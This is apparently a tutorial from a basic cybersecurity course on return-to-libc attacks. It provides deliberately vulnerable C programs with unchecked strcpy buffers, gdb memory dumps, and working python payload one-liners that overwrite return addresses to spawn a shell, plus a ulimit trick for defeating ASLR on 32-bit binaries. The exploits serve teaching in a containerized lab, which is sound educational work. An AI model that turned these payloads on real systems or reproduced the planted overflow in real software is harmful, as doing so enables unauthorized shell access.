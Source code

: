 # Return to `libc`

According to [4], a "return-to-libc" attack is a computer security attack usually starting with a buffer overflow in which a subroutine return address on a call stack is replaced by an address of a subroutine that is already present in the process’ executable memory, bypassing the NX bit feature (if present) and ridding the attacker of the need to inject their own code.

----

**Note**: as in previous tutorials, there's a docker container that facilitates reproducing the work of this tutorial. The container can be built with:
```bash
docker build -t basic_cybersecurity3:latest .
```
and runned with:
```bash
docker run --privileged -it basic_cybersecurity3:latest
```

----

### Finding a vulnerability, a simple overflow

We'll be using the following program named `rlibc1.c`:
```C
void not_called() {
    printf("Enjoy your shell!\n");
    system("/bin/bash");
}

void vulnerable_function(char* string) {
    char buffer[100];
    strcpy(buffer, string);
}

int main(int argc, char** argv) {
    vulnerable_function(argv[1]);
    return 0;
}
```

Let's a get a bit more of information about the program structure in memory:
(*compiled with `-fno-stack-protector -z execstack` flags*)

```
>>> disas vulnerable_function
Dump of assembler code for function vulnerable_function:
   0x0804849d <+0>:	push   %ebp
   0x0804849e <+1>:	mov    %esp,%ebp
   0x080484a0 <+3>:	sub    $0x88,%esp
   0x080484a6 <+9>:	mov    0x8(%ebp),%eax
   0x080484a9 <+12>:	mov    %eax,0x4(%esp)
   0x080484ad <+16>:	lea    -0x6c(%ebp),%eax
   0x080484b0 <+19>:	mov    %eax,(%esp)
   0x080484b3 <+22>:	call   0x8048330 <strcpy@plt>
   0x080484b8 <+27>:	leave  
   0x080484b9 <+28>:	ret    
End of assembler dump.
>>> p not_called
$1 = {void ()} 0x804847d <not_called>
>>>
```

right before the call to `strcpy@plt`, the stack and registers looks like:
```
─── Memory ───────────────────────────────────────────────────────────────────────────────
            address buffer  address string
0xffffd750 [6c d7 ff ff] [ba d9 ff ff] 01 00 00 00 38 d9 ff f7 l...........8...
                                                buffer
0xffffd760 00 00 00 00 00 00 00 00 00 00 00 00 [00 00 00 00 ................
0xffffd770 03 00 00 00 09 00 00 00 3f 00 c0 03 00 00 00 00 .... ...?.......
0xffffd780 34 d8 ff ff a8 d7 ff ff a0 d7 ff ff 69 82 04 08 4...........i...
0xffffd790 38 d9 ff f7 00 00 00 00 c2 00 00 00 56 ad eb f7 8...........V...
0xffffd7a0 ff ff ff ff ce d7 ff ff 34 0c e3 f7 f3 72 e5 f7 ........4 ...r..
0xffffd7b0 00 00 00 00 00 00 c3 00 01 00 00 00 fd 82 04 08 ................
0xffffd7c0 a2 d9 ff ff 2f 00 00 00 00 a0 04 08 32 85 04 08] ..../.......2...
                                    ebp           ret
0xffffd7d0 02 00 00 00 94 d8 ff ff [f8 d7 ff ff] [d3 84 04 08] ................
            string
0xffffd7e0 [ba d9 ff ff] 00 d0 ff f7 eb 84 04 08 00 10 fd f7 ................
0xffffd7f0 e0 84 04 08 00 00 00 00 00 00 00 00 f3 da e3 f7 ................
0xffffd800 02 00 00 00 94 d8 ff ff a0 d8 ff ff 6a ae fe f7 ............j...
0xffffd810 02 00 00 00 94 d8 ff ff 34 d8 ff ff 1c a0 04 08 ........4.......
0xffffd820 3c 82 04 08 00 10 fd f7 00 00 00 00 00 00 00 00 <...............
0xffffd830 00 00 00 00 cd fd 26 9d dd 99 23 a5 00 00 00 00 ......&...#.....
0xffffd840 00 00 00 00 00 00 00 00 02 00 00 00 80 83 04 08 ................
─── Registers ────────────────────────────────────────────────────────────────────────────
   eax 0xffffd76c        ecx 0xa52399dd        edx 0xffffd824        ebx 0xf7fd1000    
   esp 0xffffd74c        ebp 0xffffd7d8        esi 0x00000000        edi 0x00000000    
   eip 0x08048330     eflags [ PF SF IF ]       cs 0x00000023         ss 0x0000002b    
    ds 0x0000002b         es 0x0000002b         fs 0x00000000         gs 0x00000063    
```
A different representation of the stack available at [3] is:
```
higher  | <arguments2>        |
address | <return address>    |
        | <old %ebp>          | <= %ebp
        | <0x6c bytes of      |
        |       ...           |
        |       buffer>       |
        | <arguments1>        |
lower   | <address of buffer> | <= %esp
```
Note that the starting of the stack has get filled with the parameters for the call to `strcpy` (`arguments2`).

Launching `./rlibc1_noprotection "$(python -c 'print "A"*0x6c + "BBBB" + "\x7d\x84\x04\x08"')"` we obtain:
```bash
Enjoy your shell!
root@44522cd9481b:~#
```

Of course, this is with the stack protection disabled, when compiling the program without disabling this protections, the program just crashes and we can't perform the buffer overflow.

```bash
root@3bf52dad8e1d:~# ./rlibc1 "$(python -c 'print "A"*0x6c + "BBBB" + "\x7d\x84\x04\x08"')"
*** stack smashing detected ***: ./rlibc1 terminated
Aborted
```

### Playing with arguments

Let's play with a slightly different program named `rlibc2.c`:
```C
char* not_used = "/bin/sh";

void not_called() {
    printf("Not quite a shell...\n");
    system("/bin/date");
}

void vulnerable_function(char* string) {
    char buffer[100];
    strcpy(buffer, string);
}

int main(int argc, char** argv) {
    vulnerable_function(argv[1]);
    return 0;
}
```
We debug the program to obtain information about the `system` call and the `not_used` variable:
```
>>> disassemble not_called
Dump of assembler code for function not_called:
   0x0804847d <+0>:	push   %ebp
   0x0804847e <+1>:	mov    %esp,%ebp
   0x08048480 <+3>:	sub    $0x18,%esp
   0x08048483 <+6>:	movl   $0x8048578,(%esp)
   0x0804848a <+13>:	call   0x8048340 <puts@plt>
   0x0804848f <+18>:	movl   $0x804858d,(%esp)
   0x08048496 <+25>:	call   0x8048350 <system@plt>
   0x0804849b <+30>:	leave  
   0x0804849c <+31>:	ret    
End of assembler dump.
>>> p not_used
$5 = 0x8048570 "/bin/sh"
```
The idea behind the exploit is to overflow the buffer with the `strcpy` call and modify the return address to point to the
 `system` call address with apprlibcriate parameters (not the default ones which will call `/bin/date`). The stack should look like:

 ```
| 0x8048570 <not_used>             |
| 0x43434343 <fake return address> |
| 0x8048350 <address of system>    |
| 0x42424242 <fake old %ebp>       |
| 0x41414141 ...                   |
|   ... (0x6c bytes of 'A's)       |
|   ... 0x41414141                 |
 ```

```bash
root@3bf52dad8e1d:~# ./rlibc2_noprotection "$(python -c 'print "A"*0x6c + "BBBB" + "\x50\x83\x04\x08" + "CCCC" + "\x70\x85\x04\x08"')"
#
```

(*note, while debugging and playing with the overflow, the following command allows to exit normally `gdb --args ./rlibc2_noprotection "$(python -c 'print "A"*0x6c + "\x78\xd7\xff\xff" + "\x50\x83\x04\x08" + "\xd3\x84\x04\x08" + "\x70\x85\x04\x08"')"`.*)


### Return to `libc` attack

From [3], the trick is to realize that programs that use functions from a shared library, like `printf` from `libc`, will link the entire library into their address space at run time. This means that even if they never call system, the code for system (and every other function in `libc`) is accessible at runtime. We can see this fairly easy in gdb:

```
>>> p system
$1 = {<text variable, no debug info>} 0x555be310 <__libc_system>
>>> find 0x555be310, +99999999, "/bin/sh"
0x556e0d4c
warning: Unable to access 16000 bytes of target memory at 0x5572ef54, halting search.
1 pattern found.
```
Now from gdb:
```
gdb --args rlibc2_noprotection "$(python -c 'print "A"*0x6c + "BBBB" + "\x10\xe3\x5b\x55" + "CCCC" + "\x4c\x0d\x6e\x55"')"
```
we'll get a shell. This however does not happen when launched directly from the command line due to ASLR [5]. To bypass this:
```
ulimit -s unlimited # from[3], disable library randomization on 32-bit programs
./rlibc2_noprotection "$(python -c 'print "A"*0x6c + "BBBB" + "\x10\xe3\x5b\x55" + "CCCC" + "\x4c\x0d\x6e\x55"')"
```

### Bibliography

- [1] M. Hicks (2014), *Software Security*, Coursera, Cybersecurity Specialization, University of Maryland, College Park, <https://www.coursera.org/learn/software-security>.
- [2] Hovav Shacham (2007), *The geometry of innocent flesh on the bone: return-into-libc without function calls (on the x86)*. In Proceedings of the 14th ACM conference on Computer and communications security (CCS '07). ACM, New York, NY, USA, 552-561. DOI: https://doi.org/10.1145/1315245.1315313
- [3] Alex Reece (2013). *Introduction to return oriented programming (ROP)*. Retrieved from http://codearcana.com/posts/2013/05/28/introduction-to-return-oriented-programming-rop.html.
- [4] Wikipedia. *Return-to-libc attack*. Retrieved from https://en.wikipedia.org/wiki/Return-to-libc_attack.
- [5] Wikipedia. *Address space layout randomization*. Retrieved from https://en.wikipedia.org/wiki/Address_space_layout_randomization.
